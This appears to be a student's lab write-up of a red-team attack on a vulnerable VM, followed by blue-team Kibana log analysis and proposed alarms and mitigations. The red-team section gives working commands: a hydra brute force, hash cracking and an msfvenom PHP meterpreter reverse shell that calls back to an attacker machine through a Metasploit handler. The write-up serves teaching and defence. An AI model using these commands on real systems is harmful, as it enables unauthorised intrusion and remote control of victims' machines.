 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

 # Red Team
- Ifconfig to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.
 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
- And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 

   ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is linux4u
    ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php

![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
 ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - Msfconsole -q
   - Use exploit/multi/handler
   - Set payload php/meterpreter/reverse_tcp 
      - (same payload script as the one we copied to the shared directory)
   - Set LHOST 192.168.1.90
      - Ip of machine we want to listen on 
   - Set LPORT 4444
      - Port we want to listen on
   - Show options 
      - To see if all the settings we had set are correct
   - Run
      - To execute the listening process
 
 ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
- Blocking the Port Scan
  - Alarm
   - An alert to be sent to the team for a 1000+ port connections within a hour
  - System Hardening 
   - To run multiple port scans to see what ports are being opened and if any are being used maliciously
   - To make sure Firewall is up to date and to diminish any connections to the host

- Finding the Request for the Hidden Directory
 - Alarm
   - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
   - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
 - System Hardening
   - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
   - To make a whitelist to people who can and cant use these files and directories

- Mitigation: Preventing Brute Force Attacks
 - Alarm
   - I would implement a failed login alert to show a certain amount of times the login has failed 
   - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
   - If there is more than 5 failed login attempts the alarm would be triggered
 - System Hardening
   - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
   - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

- Mitigation: Detecting the WebDav Connection
 - Alarm
   - An alert would be made to send the IP addresses trying to get access to webdav  
 - System Hardening
   - To whitelist certain IP addresses so only certain machines can access WebDav

- Mitigation: Identifying Reverse shell Uploads
 - Alarm
   - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
 - System Hardening
   - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
   - To whitelist IP addresses that can access the webdav folder 


